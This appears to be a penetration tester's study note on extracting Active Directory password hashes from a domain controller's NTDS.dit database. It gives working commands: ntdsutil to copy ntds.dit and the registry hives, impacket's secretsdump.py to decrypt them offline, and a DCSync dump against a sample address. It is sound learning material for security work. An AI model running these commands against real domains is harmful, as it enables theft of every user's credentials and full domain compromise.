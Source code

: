 #impacket #ntdsutil
- The `NTDS` (New Technology Directory Services) is a database that contains all the AD data.
- It has:
	- Schema Table
	- Link Table
	- Data Type
- The database is located at `C:\Windows\NTDS\ntds.dit` in the domain controller.
- This file is locked.
- Decrypting the NTDS requires the system boot key, which is stored in the SYSTEM hive or filesystem.
### Offline Dump
- When we have administrative access to the domain controller, but we don't have administrator credentials.
- We require a copy of the:
	- NDTS.dit
	- SYSTEM
	- SECURITY
- We can make a copy of the all these files using `ntdsutil.exe` command line tool.
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\temp' q q"
```
- Credentials can be dumped with impacket's `secretsdump.py`
```bash
secretsdump.py -security <security> -system <system> -ntds <ntds> local
```
### Credentials dump
- If we have administrator credentials, we can perform [DCSync](DCSync) using `secretsdump.py`:
```powershell
secretsdump.py -just-dc-ntlm mydomain.local/adminuser@10.10.10.10
```